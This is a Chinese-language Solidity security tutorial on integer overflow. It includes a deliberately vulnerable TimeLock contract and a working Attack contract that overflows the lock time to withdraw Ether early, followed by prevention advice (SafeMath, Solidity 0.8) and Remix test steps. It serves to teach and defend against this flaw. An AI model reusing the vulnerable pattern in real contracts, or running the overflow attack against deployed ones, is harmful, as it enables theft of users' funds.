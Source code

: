 # Arithmetic Overflow and Underflow
##漏洞
### Solidity < 0.8
Solidity中的整数会发生溢出/下溢，但没有任何错误提示。
### Solidity >= 0.8
Solidity 0.8的默认行为是在发生溢出/下溢时抛出错误。


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;

// 这个合约被设计成一个时间保险箱。
// 用户可以向此合约存款，但至少需要等待一周后才能取款。
// 用户也可以延长等待时间超过一周。
/*
1. 部署TimeLock
2. 部署Attack，将TimeLock的地址传递给Attack
3. 调用Attack.attack发送1个以太币。您将立即能够取回您的以太币。

发生了什么？
攻击导致TimeLock.lockTime溢出，并在一周等待期结束之前取款。
*/

contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        如果t是当前锁定时间，则我们需要找到x，使得
        x + t = 2**256 = 0
        所以x = -t
        2**256 = type(uint).max + 1
        所以 x = type(uint).max + 1 - t
        */
        timeLock.increaseLockTime(
            type(uint).max + 1 - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
```
##预防技术
使用SafeMath可以防止算术溢出和下溢。

Solidity 0.8默认情况下在发生溢出/下溢时会抛出错误。

## remix验证
1.部署TimeLock合约。部署Attack合约，并传递TimeLock合约的地址给它。
![67-1.png](img/67-1.png)